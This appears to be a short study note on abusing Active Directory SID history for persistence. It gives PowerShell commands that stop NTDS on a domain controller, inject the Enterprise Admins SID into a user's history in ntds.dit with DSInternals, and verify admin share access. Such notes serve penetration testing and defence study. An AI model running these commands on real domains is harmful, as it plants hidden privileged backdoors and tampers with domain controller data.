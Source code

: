 - [[Windows/Windows Internals/SID]] is used to track the security principal for an account.
- SID history is used to track previous SIDs of the user (maybe while migrating the AD environment to a new one). This allows the user to access resource in the previous/last domain using the new account.
- SID history, by design, can story any SID, and doesn't need to be from other domain.
- With domain admin privileges, we can add/modify SIDs to the SID history property of a user object.
- When the user logs in, the SIDs are added to their access token, which determines the privilege of the user.
- This can be exploited for persistence as we can add the SID of an enterprise admin, as this would elevate the privilege of the user, even though we are not added to the Enterprise Admin group.
- SID property can fetched with AD module:
```powershell
Get-ADUser dr.dragon -Properties sidhistory
# empty by default
```
- Adding SID history using DSInternals
```powershell
# Fetch SID for Enterprise Admins
Get-ADGroup "Enterprise Admins" -Property SID
# Stoping the ntds service
Stop-Service -Name ntds -Force
# Adding the SID history
Add-ADDBSidHistory -SamAccountName "dr.dragon" -SidHistory 'ADMIN_SID' -DatabasePath C:\Windows\NTDS\ntds.dit
# Start the ntds service again
Start-Service -Name ntds
# Verify Enterprise Admin access
dir \\dc.mydomain.local\C$
```